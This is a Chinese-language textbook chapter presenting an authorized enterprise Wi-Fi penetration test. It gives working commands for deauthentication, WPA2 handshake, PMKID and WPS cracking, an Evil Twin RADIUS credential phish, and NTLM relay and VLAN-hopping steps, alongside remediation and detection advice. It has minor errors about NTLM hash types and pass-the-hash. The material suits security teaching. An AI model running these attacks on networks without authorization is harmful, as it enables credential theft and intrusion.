

## 3.3 案例三：无线网络渗透测试

无线网络渗透测试是网络安全评估中最具特殊性的领域之一——它不需要物理接入目标网络，只需在信号覆盖范围内即可发起攻击。与Web应用渗透或内网渗透不同，无线渗透的攻击面是电磁波覆盖的整个物理空间，攻击者甚至可以在停车场、隔壁楼层或对面建筑中完成全部操作。本案例通过一次真实的企业无线网络评估，完整展示从信号侦察、认证破解、中间人攻击到网络隔离验证的全链路流程。

### 3.3.1 无线网络安全基础

#### 802.11协议与安全演进

理解无线渗透测试的前提是掌握802.11协议的安全机制演变。每一次加密标准的更迭都是对前一代攻击手法的回应：

| 协议标准 | 发布年份 | 加密方式 | 密钥管理 | 安全状态 |
|---------|---------|---------|---------|---------|
| WEP | 1999 | RC4（24位IV） | 静态共享密钥 | 已破解，可在数分钟内恢复明文密钥 |
| WPA（TKIP） | 2003 | RC4 + TKIP | 每包密钥混合 | 已破解，BECK-TKIP攻击可在1分钟内解密单包 |
| WPA2（CCMP） | 2004 | AES-128-CCMP | 4次握手协商PTK | PSK模式可暴力破解，Enterprise模式依赖RADIUS |
| WPA2-Enterprise | 2004 | AES-128-CCMP | 802.1X/EAP + RADIUS | 证书验证缺失时易受Evil Twin攻击 |
| WPA3-Personal | 2018 | AES-128/192/256-CCMP | SAE（Simultaneous Authentication of Equals） | Dragonblood漏洞可降级到WPA2 |
| WPA3-Enterprise | 2018 | AES-256-GCMP（192位模式） | 802.1X + 证书强制验证 | 目前最安全，但部署率极低 |

802.11协议栈的安全层工作在数据链路层（L2），这意味着无线安全的攻防本质上是L2层面的认证和加密博弈。攻击者如果能突破L2安全，就等于获得了物理网络的接入权，后续的L3-L7攻击与有线网络完全一致。

#### WPA2四次握手原理

WPA2的安全性建立在四次握手（4-Way Handshake）协议之上，理解它是掌握无线渗透的关键：



关键点：PMK（Pairwise Master Key）由预共享密码和SSID通过PBKDF2函数派生。攻击者捕获四次握手后，可以通过离线字典攻击暴力尝试密码——每猜测一个密码就用PBKDF2派生PMK，再用ANonce/SNonce推导PTK，最后验证MIC是否匹配。这个过程完全离线进行，不受AP限速或锁定机制限制。

#### PMKID攻击原理

2018年安全研究员Jens Steube（hashcat作者）发现了一种无需捕获四次握手的攻击方式——PMKID攻击。当AP在RSN（Robust Security Network）信息元素中包含PMKID时，攻击者只需关联到AP即可获取PMKID：

```text
PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC_AP | MAC_STA)
```

攻击流程更简单：不需要等待客户端连接，不需要发送deauth帧，直接单向获取哈希后离线破解。这种方式隐蔽性更强，已成为WPA2-PSK渗透的首选方法。

### 3.3.2 测试环境与法律框架

#### 授权与合规

无线网络渗透测试必须在正式授权范围内进行。与有线网络测试不同，无线信号无法精确控制边界——测试操作可能影响授权范围外的设备。因此授权文件必须明确以下内容：

- **测试频段**：2.4GHz（2.400-2.4835GHz）和5GHz（5.150-5.850GHz），是否包含6GHz（Wi-Fi 6E）
- **测试区域**：精确到楼层和房间编号，包含信号可能泄露的区域（如停车场、相邻办公室）
- **时间窗口**：避开业务高峰期，明确测试开始和结束时间
- **攻击手段**：是否允许deauth攻击（会影响正常用户连接）、是否允许Evil Twin攻击
- **免责条款**：测试期间可能造成的合法业务中断的责任界定

在中国，无线渗透测试还需遵守《网络安全法》第二十六条和《无线电管理条例》相关规定。未经授权的无线网络入侵属于非法侵入计算机信息系统罪（刑法第285条），使用deauth等射频干扰手段可能违反无线电管理法规。

#### 硬件环境

无线渗透测试对硬件有特殊要求，不同于其他渗透测试类型：

**无线网卡选择**

| 芯片组 | 支持频段 | 监听模式 | 数据包注入 | 推荐型号 |
|--------|---------|---------|-----------|---------|
| Atheros AR9271 | 2.4GHz | ✅ | ✅（稳定） | Alfa AWUS036NHA |
| Ralink RT3070 | 2.4GHz | ✅ | ✅ | Alfa AWUS036NH |
| Realtek RTL8812AU | 2.4/5GHz | ✅ | ✅ | Alfa AWUS036ACH |
| Intel AX200/210 | 2.4/5/6GHz | ⚠️ 部分支持 | ❌ | 仅用于连接，不用于攻击 |

核心要求：网卡必须支持**监听模式（Monitor Mode）**和**数据包注入（Packet Injection）**。不支持注入的网卡无法发送deauth帧和伪造帧，无法完成主动攻击。实际测试中建议至少携带两块网卡——一块用于扫描和注入，一块用于连接目标网络。

**天线类型**

- **全向天线（Omni）**：360度覆盖，适合一般扫描，增益通常3-9dBi
- **定向天线（Directional）**：Yagi/平板/抛物面，增益12-24dBi，适合远距离定向扫描和信号定位
- **八木天线（Yagi）**：适合定向测试特定AP，增益12-18dBi

**信号衰减参考**：在典型办公环境中，穿一堵承重墙信号衰减约10-15dB，穿玻璃幕墙衰减约3-5dB。了解衰减有助于判断信号覆盖范围和潜在的物理攻击边界。

#### 软件环境

测试环境基于Kali Linux（推荐2024.x及以上版本），核心工具链：

```bash
# 确认工具版本
aircrack-ng --version        # Aircrack-ng套件版本
hashcat --version            # 离线哈希破解
hostapd-mana -v              # 恶意AP搭建（支持MANA扩展）
eaphammer --version          # WPA2-Enterprise攻击
wifite2 --version            # 自动化无线攻击
bettercap -version           # 网络嗅探和中间人
```

辅助工具：
- **Wireshark**：无线帧分析，理解802.11协议细节
- **Kismet**：被动式无线嗅探和入侵检测，不发送任何探测帧
- **Fern Wifi Cracker**：图形化无线攻击工具，适合初学者理解流程
- **Reaver/Bully**：WPS PIN暴力破解工具

### 3.3.3 无线网络侦察

侦察是无线渗透的基础。与有线网络侦察不同，无线侦察需要理解射频环境——同一个SSID可能有多个AP部署在不同位置，不同信道的信号强度也不同。侦察阶段的目标是绘制完整的无线环境地图。

#### 被动扫描

被动扫描不发送任何探测帧，仅监听空中传输的802.11管理帧（Beacon、Probe Response等），隐蔽性极高：

```bash
# 步骤1：停止可能占用网卡的进程
airmon-ng check kill

# 步骤2：启用监听模式
airmon-ng start wlan0
# 确认网卡已切换到监听模式（通常变为wlan0mon）
iwconfig wlan0mon | grep Mode
# Mode:Monitor  Frequency:2.437 GHz  Tx-Power=20 dBm

# 步骤3：全信道扫描
airodump-ng wlan0mon
# 输出示例：
# BSSID              PWR  Beacons  #Data  #/s  CH  MB   ENC  CIPHER AUTH ESSID
# AA:BB:CC:DD:EE:FF  -45  234      1892   45   6   54e  WPA2 CCMP   PSK  CorpWiFi
# 11:22:33:44:55:66  -52  187      523    12   11  54e  WPA2 CCMP   PSK  CorpWiFi-Guest
# 77:88:99:AA:BB:CC  -60  156      89     3    1   54e  WPA2 CCMP   PSK  CorpPrinter
# 33:44:55:66:77:88  -65  98       0      0    36  130  WPA2 CCMP   MGT  CorpWiFi

# 步骤4：聚焦特定信道捕获更多细节
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w scan_result wlan0mon
# -c 6: 锁定信道6
# --bssid: 聚焦目标AP
# -w: 将捕获数据写入文件
```

**被动扫描的关键输出字段解读**：

| 字段 | 含义 | 渗透测试意义 |
|------|------|------------|
| PWR | 信号强度（dBm） | 值越大（越接近0）信号越强，AP越近。-70dBm以下连接不稳定 |
| Beacons | Beacon帧数量 | AP活跃度，Beacon越多说明AP越稳定 |
| #Data | 数据帧数量 | 网络使用活跃度，数据量大说明有活跃客户端 |
| ENC | 加密类型 | WEP/WPA/WPA2/WPA3/OPN，决定攻击方法 |
| AUTH | 认证方式 | PSK（预共享密钥）或MGT（802.1X企业认证） |
| ESSID | 网络名称 | 隐藏网络显示为<length: N>，可进一步探测 |

#### 主动扫描

主动扫描通过发送Probe Request帧来发现隐藏网络和范围内但未广播的AP：

```bash
# 发送探测请求发现隐藏SSID
# 使用mdk3/mdk4发送Probe Request
mdk4 wlan0mon p -t AA:BB:CC:DD:EE:FF
# 或使用aireplay-ng
aireplay-ng -1 0 -e CorpWiFi -a AA:BB:CC:DD:EE:FF wlan0mon

# 使用wash扫描WPS启用的AP
wash -i wlan0mon
# WPS启用的AP存在PIN暴力破解的风险
# BSSID              Ch  dBm  WPS  Lck  Vendor  ESSID
# 11:22:33:44:55:66  11  -52  2.0  No   RalinkT  CorpWiFi-Guest
```

#### 客户端侦察

客户端信息对攻击至关重要——没有活跃客户端的AP无法进行握手捕获：

```bash
# 在airodump-ng输出的下半部分可以看到客户端信息
# STATION            PWR   Rate  Lost  Packets  Probes
# AA:BB:CC:DD:EE:01  -48   54e-54e  0    234      CorpWiFi
# AA:BB:CC:DD:EE:02  -55   54e-54e  12   89       CorpWiFi-Guest

# 使用airodump-ng的--manufacturer选项获取OUI厂商信息
# 可以判断设备类型（手机、笔记本、IoT设备）
```

#### 无线环境可视化

侦察完成后，需要绘制无线环境地图。使用Kismet进行被动嗅探并结合GPS定位：

```bash
# Kismet被动嗅探（不发送任何帧）
kismet -c wlan0mon
# Kismet会自动记录所有AP的位置（信号强度推算）、客户端关联关系、信道分布

# 导出数据用于可视化
# Kismet数据库位于 /root/Kismet-*.kismet
# 使用kismet-log-tools导出CSV
kismetdb_to_pcap /root/Kismet-*.kismet -o output.pcap
```

最终的侦察报告应包含：
1. 所有发现的AP列表（SSID、BSSID、信道、加密方式、信号强度）
2. 客户端关联映射（哪些客户端连接了哪个AP）
3. 隐藏网络识别结果
4. WPS状态标记
5. 异常AP检测（相同SSID但不同BSSID可能是Rogue AP）

### 3.3.4 WPA2-PSK渗透攻击

WPA2-PSK（Pre-Shared Key）是最常见的家庭和中小企业WiFi加密方式。其核心弱点在于：预共享密钥是用户手动设置的静态密码，如果密码强度不足，可以通过离线字典攻击破解。

#### 方法一：四次握手捕获 + 字典攻击

这是最经典的WPA2-PSK攻击方法，流程分为三个阶段：

**阶段一：捕获握手包**

```bash
# 启动目标AP的定向抓包
airodump-ng -c 6 --bssid 11:22:33:44:55:66 -w handshake wlan0mon
# 参数说明：
# -c 6: 锁定信道6（与目标AP一致）
# --bssid 11:22:33:44:55:66: 只捕获目标AP的数据
# -w handshake: 输出文件名前缀
# wlan0mon: 监听模式网卡接口
```

**阶段二：触发Deauth攻击强制客户端重新连接**

等待自然握手可能需要很长时间（客户端只在关联/重关联时发送握手包），因此使用Deauth攻击主动触发：

```bash
# 向目标AP发送Deauth帧，强制所有客户端断开重连
# -0 5: 发送5次deauth帧
# -a: 目标AP的BSSID
aireplay-ng -0 5 -a 11:22:33:44:55:66 wlan0mon

# 精确针对特定客户端（效果更好）
# -c: 目标客户端的MAC地址
aireplay-ng -0 5 -a 11:22:33:44:55:66 -c AA:BB:CC:DD:EE:01 wlan0mon

# 验证握手包是否捕获成功
# airodump-ng右上角会显示 "WPA handshake: 11:22:33:44:55:66"
# 也可以用aircrack-ng验证
aircrack-ng handshake-01.cap
# 如果显示有效的handshake列表，说明捕获成功
```

**阶段三：离线字典破解**

```bash
# 使用aircrack-ng进行字典攻击
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 11:22:33:44:55:66 handshake-01.cap
# -w: 字典文件路径
# -b: 目标BSSID（当cap文件包含多个AP时指定）

# 输出结果：
# KEY FOUND! [ Welcome2024 ]
# Master Key: 3F A2 98 ... (64 hex chars)
# Transient Key: 7B C1 4D ... (128 hex chars)

# 使用hashcat进行GPU加速破解（速度远快于aircrack-ng）
# 先将cap转换为hashcat格式
hcxpcapngtool -o hash.hc22000 handshake-01.cap
# 使用GPU字典攻击
hashcat -m 22000 hash.hc22000 /usr/share/wordlists/rockyou.txt --force
# 使用规则文件增强字典
hashcat -m 22000 hash.hc22000 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

#### 方法二：PMKID攻击（无需客户端）

PMKID攻击是2018年发现的更优雅的攻击方式，不需要等待客户端连接，不需要发送deauth帧：

```bash
# 使用hcxdumptool获取PMKID
hcxdumptool -i wlan0mon -o pmkid_capture.pcapng --filterlist_ap=targets.txt --filtermode=2
# targets.txt: 目标AP的BSSID列表，每行一个
# --filtermode=2: 只攻击列表中的AP

# 等待一段时间后停止（通常几分钟内即可获取PMKID）
# 检查是否获取到PMKID
hcxpcapngtool -z pmkid_hashes.txt pmkid_capture.pcapng
cat pmkid_hashes.txt
# 输出: WPA*02*PMKID*MAC_AP*MAC_STA*ESSID_HEX

# 使用hashcat破解PMKID
hashcat -m 22000 pmkid_hashes.txt /usr/share/wordlists/rockyou.txt

# PMKID攻击的优势：
# 1. 不需要客户端在线
# 2. 不发送deauth帧，隐蔽性更强
# 3. 不影响正常网络使用
# 4. 操作更简单，一个工具即可完成
```

#### 方法三：WPS PIN暴力破解

许多路由器默认启用了WPS（Wi-Fi Protected Setup），其8位PIN存在设计缺陷——前4位和后4位分别验证，有效搜索空间仅约11000次：

```bash
# 使用reaver进行WPS PIN暴力破解
reaver -i wlan0mon -b 11:22:33:44:55:66 -c 11 -vv
# -b: 目标BSSID
# -c: 信道
# -vv: 详细输出

# 使用bully（更稳定，对锁定机制处理更好）
bully -b 11:22:33:44:55:66 -c 11 -d -v 3 wlan0mon

# 注意：许多现代路由器会在多次失败后锁定WPS
# 使用pixie-dust攻击可以绕过锁定（利用WPS实现的随机数生成缺陷）
reaver -i wlan0mon -b 11:22:33:44:55:66 -c 11 -K 1 -vv
# -K 1: 启用pixie-dust攻击
# 此攻击在几秒内即可完成，但仅对特定芯片组有效
```

#### 密码破解策略与效率优化

不同破解方法的效率差异巨大，选择正确的方法可以节省数天时间：

| 破解方法 | 速度（RTX 3080） | 适用场景 | 局限性 |
|---------|----------------|---------|--------|
| hashcat 字典 + 规则 | ~800 kH/s | 常规密码 | 取决于字典质量 |
| hashcat 掩码暴力 | ~800 kH/s | 已知密码格式 | 纯随机密码几乎不可能 |
| hashcat 字典组合 | ~400 kH/s | 复合密码 | 需要组合规则 |
| aircrack-ng CPU | ~2 kH/s | 无GPU环境 | 速度极慢 |
| 在线字典（无GPU） | ~0.5 kH/s | 仅做概念验证 | 不推荐实际使用 |

优化策略：
1. **使用规则文件增强字典**：hashcat的best64.rule可将1万条基础密码扩展为64万条变体
2. **针对性构造字典**：收集目标组织的员工信息（姓名、生日、公司名、地址），生成定制字典
3. **掩码攻击**：如果知道密码格式（如"公司名+年份+特殊字符"），使用掩码 `CorpName?d?d?d?d?s` 精准爆破
4. **分布式破解**：使用多台GPU机器并行破解，或将哈希文件上传到云GPU服务

本案例中，访客网络密码 `Welcome2024` 属于典型的"常见英文单词+年份"组合，rockyou.txt字典在hashcat规则增强后约2分钟内即可匹配。

### 3.3.5 WPA2-Enterprise渗透攻击

WPA2-Enterprise使用802.1X协议和RADIUS服务器进行认证，安全性远高于PSK。每个用户有独立的凭据（用户名/密码或数字证书），不再共享单一密码。但这并不意味着它不可攻破——其弱点在于客户端对RADIUS服务器证书的验证行为。

#### Evil Twin + RADIUS钓鱼攻击

攻击原理：搭建一个与目标同名的虚假AP和RADIUS服务器，当客户端尝试连接时，虚假RADIUS服务器返回一个自签名证书。如果客户端没有正确配置证书验证（这是最常见的配置缺陷），用户会输入凭据"重新认证"，此时凭据被攻击者捕获。

```bash
# 步骤1：使用hostapd-mana搭建恶意AP
# 创建hostapd-mana配置文件
cat > evil_twin.conf << 'EOF'
interface=wlan1
driver=nl80211
ssid=CorpWiFi
channel=6
hw_mode=g
wpa=2
wpa_key_mgmt=WPA-EAP
wpa_pairwise=CCMP TKIP
ieee8021x=1
eapol_key_index_workaround=0
eap_server=1
eap_user_file=hostapd.eap_user
ca_cert=/etc/hostapd-mana/certs/ca.pem
server_cert=/etc/hostapd-mana/certs/server.pem
private_key=/etc/hostapd-mana/certs/server.key
mana_wpe=1
mana_eapsuccess=1
mana_credout=creds.txt
EOF

# 创建EAP用户文件
cat > hostapd.eap_user << 'EOF'
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "password"    [2]
EOF

# 步骤2：启动恶意AP
hostapd-mana evil_twin.conf

# 步骤3：同时使用aireplay-ng对真实AP发送deauth
# 迫使客户端断开后自动重连到恶意AP（因为SSID相同）
aireplay-ng -0 10 -a AA:BB:CC:DD:EE:FF wlan0mon
```

更简单的方式是使用eaphammer，它集成了AP搭建、证书生成和deauth攻击：

```bash
# 一键式WPA2-Enterprise凭证捕获
eaphammer -i wlan1 --essid CorpWiFi --creds --channel 6 \
    --auth wpa-eap \
    --negotiate balanced

# 参数说明：
# -i: 用于搭建恶意AP的无线接口
# --essid: 目标SSID（必须与真实AP完全一致）
# --creds: 启用凭证捕获模式
# --channel: 与目标AP相同的信道
# --auth: 认证方式
# --negotiate: 协商策略（balanced会逐步降级认证方式）

# 输出示例：
# [*] Captured credentials for user: zhang.san
# [*] EAP Type: MSCHAPv2
# [*] NTHash: aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b
# [*] Username: zhang.san
```

**捕获到的NTLM哈希可以通过以下方式利用**：

```bash
# 方法1：使用hashcat离线破解NTLM哈希
hashcat -m 5500 e02bc503339d51f71d913c245d35b50b /usr/share/wordlists/rockyou.txt
# -m 5500: NetNTLMv2哈希类型

# 方法2：使用crackstation等在线哈希查询服务
# 对于常见密码，网上已有彩虹表

# 方法3：直接Pass-the-Hash（如果密码无法破解）
# 使用获取的NTLM哈希直接进行内网横向移动
# 这意味着WPA2-Enterprise被攻破后，攻击者直接获得域凭据
```

#### 证书验证缺陷的根本原因

大多数WPA2-Enterprise被攻破的案例中，根本原因是客户端没有配置正确的证书验证。Windows默认行为是弹出证书警告对话框，用户点击"连接"后会自动接受任何证书。正确的802.1X配置应该：

1. 在组策略中指定受信任的CA证书
2. 配置RADIUS服务器的CN（Common Name）或域名验证
3. 禁止用户手动接受未验证的证书

如果目标企业的客户端配置了正确的证书验证，Evil Twin攻击将失败——客户端会拒绝连接自签名证书的RADIUS服务器。

### 3.3.6 后渗透：网络隔离验证

获得无线网络访问权后，下一步是验证网络隔离效果。这是无线渗透测试中最关键的环节——无线网络的隔离性直接决定了攻击影响范围。

#### 访客网络隔离测试

```bash
# 使用获取的访客网络密码连接
nmcli device wifi connect CorpWiFi-Guest password Welcome2024

# 确认获取的IP地址
ip addr show wlan0
# 通常访客网络分配 10.0.100.0/24 段

# 测试1：ARP扫描同网段设备
arp-scan -l
# 或使用nmap
nmap -sn 10.0.100.0/24

# 测试2：尝试访问企业内网段
nmap -sn 10.0.0.0/24    # 企业办公网段
nmap -sn 10.0.1.0/24    # 服务器网段
nmap -sn 192.168.1.0/24 # 管理网段

# 测试3：端口扫描发现的服务
nmap -sV -p 21,22,80,443,445,3389,8080 10.0.0.0/24 --open
# 如果能发现文件服务器（445）、打印机（9100/631）等内网服务
# 说明隔离失败

# 测试4：尝试访问内部Web服务
curl -s http://10.0.1.50        # 内网OA系统
curl -s http://10.0.1.100:8080  # 内部管理系统

# 测试5：DNS劫持测试
# 检查是否可以使用自定义DNS服务器
dig @8.8.8.8 intranet.corp.local
# 如果解析成功，说明DNS未被限制
```

#### VLAN跳跃测试

如果访客网络使用VLAN隔离，测试是否存在VLAN跳跃漏洞：

```bash
# 尝试double-tagging攻击（802.1Q VLAN跳跃）
# 使用yersinia发送double-tagged帧
yersinia -I

# 使用scapy构造double-tagged帧
python3 << 'EOF'
from scapy.all import *
pkt = Ether(dst="ff:ff:ff:ff:ff:ff") / \
      Dot1Q(vlan=100) / \
      Dot1Q(vlan=1) / \
      IP(dst="10.0.0.1") / \
      ICMP()
sendp(pkt, iface="wlan0")
EOF

# 如果收到ICMP回复，说明VLAN隔离被绕过
```

#### 无线漫游与客户端攻击

企业环境中，设备可能在多个AP之间漫游。攻击者可以利用漫游机制：

```bash
# 使用karma攻击（响应所有Probe Request）
# 这是最古老的无线攻击之一，但在某些配置下仍然有效
# hostapd-mana支持karma模式
# 在evil_twin.conf中添加：
# enable_karma=1
# karma_black=0

# 使用bettercap进行无线中间人攻击
bettercap -iface wlan1
# 在bettercap中：
# wifi.recon on              # 启用无线侦察
# wifi.deauth AA:BB:CC:DD:EE:FF  # 对目标AP发送deauth
# wifi.assoc on              # 主动关联探测
```

#### 横向移动测试

成功接入网络后的横向移动测试：

```bash
# 使用Responder捕获NTLM哈希（如果网络中存在Windows主机）
responder -I wlan0 -wrf
# Responder会监听LLMNR/NBT-NS/MDNS请求并捕获哈希

# 使用mitm6进行IPv6 DNS接管
mitm6 -d corp.local
# 在IPv6环境中，Windows默认优先使用IPv6 DNS
# 攻击者可以通过伪造DHCPv6响应接管DNS

# 使用ntlmrelayx进行NTLM中继攻击
ntlmrelayx.py -t 10.0.1.50 -smb2support
# 将捕获的NTLM认证中继到目标服务器
```

### 3.3.7 自动化测试工具

在完成手动测试理解底层原理后，可以使用自动化工具提高效率：

#### wifite2

wifite2集成了多种攻击方法，适合快速扫描和测试：

```bash
# 自动化扫描和攻击
wifite2 -i wlan0mon --wpa --wps --pmkid
# --wpa: 测试WPA/WPA2网络
# --wps: 测试WPS启用的网络
# --pmkid: 优先使用PMKID攻击

# 指定目标
wifite2 -i wlan0mon -b 11:22:33:44:55:66 --dict /usr/share/wordlists/rockyou.txt
```

#### Bettercap

Bettercap是现代无线渗透的瑞士军刀：

```bash
# 启动bettercap无线模式
bettercap -iface wlan1

# bettercap交互命令：
wifi.recon on                           # 开始无线侦察
wifi.show                               # 显示所有发现的AP
wifi.deauth AA:BB:CC:DD:EE:FF          # 对目标AP发送deauth
set wifi.handshakes.file /tmp/hs.pcap   # 设置握手包保存路径
wifi.assoc all                          # 主动关联所有AP
```

### 3.3.8 无线安全防护建议

基于本次渗透测试发现的问题，提出以下针对性防护建议：

#### 认证安全

| 问题 | 修复措施 | 配置示例 |
|------|---------|---------|
| WPA2-PSK弱密码 | 强制16位以上随机密码，或升级到WPA3-SAE | `wpa_passphrase=随机生成的32位字符串` |
| WPS启用 | 禁用WPS功能 | `wps_state=0`（hostapd配置） |
| WPA2-Enterprise证书未验证 | 在所有客户端配置强制证书验证 | GPO: `Computer Config > Windows Settings > Security Settings > Wireless > 802.1X` |
| 无线接入点固件过旧 | 建立固件更新SOP，至少每季度检查一次 | 订阅厂商安全公告邮件列表 |

#### 网络隔离

```text
正确的无线网络隔离架构：

Internet
    │
    ├── 防火墙 ── VLAN 10（企业办公网）── 核心交换机 ── 文件服务器
    │                   │
    │              802.1X + RADIUS
    │                   │
    └── 防火墙 ── VLAN 100（访客网络）── 无线控制器 ── 访客AP
                      │
                 ACL: 仅允许HTTP/HTTPS/DNS
                 禁止访问所有内网段
```

关键隔离配置：
1. **VLAN隔离**：访客网络必须使用独立VLAN，与企业网络完全分离
2. **ACL规则**：访客VLAN仅允许访问Internet出口，禁止访问所有RFC1918地址
3. **防火墙策略**：访客网络出站仅开放80/443/53端口，禁止访问内网任何服务
4. **DNS控制**：强制使用企业DNS服务器，阻止DNS隧道

#### 入侵检测

```bash
# 部署WIDS/WIPS（无线入侵检测/防御系统）
# 使用Kismet作为被动检测
kismet -c wlan0mon --override wardrive

# 检测Rogue AP的信号特征
# 正常AP的信号强度应该稳定，Rogue AP的信号波动较大
# 监控相同SSID但不同BSSID的AP

# 使用nzyme进行企业级无线监控
# nzyme可以检测：
# - Evil Twin攻击（相同SSID不同BSSID）
# - Deauth洪泛攻击
# - 异常Probe Request
# - 未授权AP
```

#### 终端安全加固

```bash
# Windows企业WiFi安全配置（组策略模板）
# 路径：Computer Configuration > Policies > Windows Settings > Security Settings > 
#        Wireless Network (IEEE 802.11) Policies

# 关键配置项：
# 1. 禁止连接非信任网络
# 2. 强制证书验证：指定受信任CA，配置服务器域名
# 3. 禁用自动连接开放网络
# 4. 启用802.11w管理帧保护（PMF）
```

### 3.3.9 测试总结

本次无线网络渗透测试发现了以下安全问题：

| 风险等级 | 问题描述 | 影响范围 | 修复建议 |
|---------|---------|---------|---------|
| 高危 | 访客网络使用弱密码"Welcome2024" | 任何信号覆盖范围内的人 | 更换为20位以上随机密码或启用WPA3-SAE |
| 高危 | 访客网络与企业网络无有效隔离 | 通过访客网络可直接访问企业内网 | 实施VLAN隔离+ACL+防火墙策略 |
| 高危 | WPA2-Enterprise客户端未配置证书验证 | 企业WiFi用户凭据可被钓鱼捕获 | 组策略强制证书验证，禁用手动接受 |
| 中危 | 无线接入点固件版本过旧 | 已知漏洞可能被利用 | 建立固件更新SOP |
| 低危 | 部分AP启用了WPS | 存在PIN暴力破解风险 | 禁用WPS功能 |

渗透测试的根本价值不在于发现漏洞，而在于推动修复。每个发现的问题都应对应具体的修复方案、责任人和完成时限。无线网络的安全性是整体性的——单一环节的薄弱可能导致整个安全体系的崩溃。正如本案例所展示的，一个弱密码的访客网络因为缺乏隔离，直接暴露了企业内网的全部资源。
